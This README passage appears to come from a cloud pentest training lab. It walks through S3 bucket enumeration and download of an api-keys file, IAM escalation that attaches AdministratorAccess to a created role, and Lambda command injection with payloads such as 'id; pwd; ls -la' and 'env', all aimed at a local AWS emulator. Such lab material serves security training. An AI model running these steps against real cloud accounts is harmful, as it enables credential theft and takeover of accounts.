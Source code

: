 ## 🔍 Penetration Testing Scenarios

### Scenario 1: S3 Bucket Takeover (Pemula)
**Objective**: Find dan exploit public S3 buckets

```powershell
# 1. Discovery
python aws_pentest_toolkit.py s3

# 2. Manual enumeration
aws --endpoint-url=http://localhost:4566 s3 ls

# 3. Download sensitive files
aws --endpoint-url=http://localhost:4566 s3 cp s3://vulnerable-pentest-bucket/secrets/api-keys.txt .
```

**What to look for**:
- Public read/write permissions
- Sensitive files (configs, backups, logs)
- Credentials in file contents

### Scenario 2: IAM Privilege Escalation (Intermediate)
**Objective**: Escalate from limited user to admin

```powershell
# 1. Enumerate current permissions
python aws_pentest_toolkit.py iam

# 2. Look for privilege escalation paths
# - Can create roles?
# - Can attach policies?
# - Can assume roles?

# 3. Create admin role (if possible)
aws --endpoint-url=http://localhost:4566 iam create-role --role-name PWNedRole --assume-role-policy-document file://trust-policy.json

# 4. Attach admin policy
aws --endpoint-url=http://localhost:4566 iam attach-role-policy --role-name PWNedRole --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

### Scenario 3: Lambda Code Injection (Advanced)
**Objective**: Execute commands through vulnerable Lambda

```powershell
# 1. Find vulnerable Lambda functions
python aws_pentest_toolkit.py lambda

# 2. Test command injection
curl -X POST http://localhost:4566/2015-03-31/functions/vulnerable-cmd-exec/invocations \
  -H "Content-Type: application/json" \
  -d '{"command": "id; pwd; ls -la"}'

# 3. Extract environment variables
curl -X POST http://localhost:4566/2015-03-31/functions/vulnerable-cmd-exec/invocations \
  -H "Content-Type: application/json" \
  -d '{"command": "env"}'
```
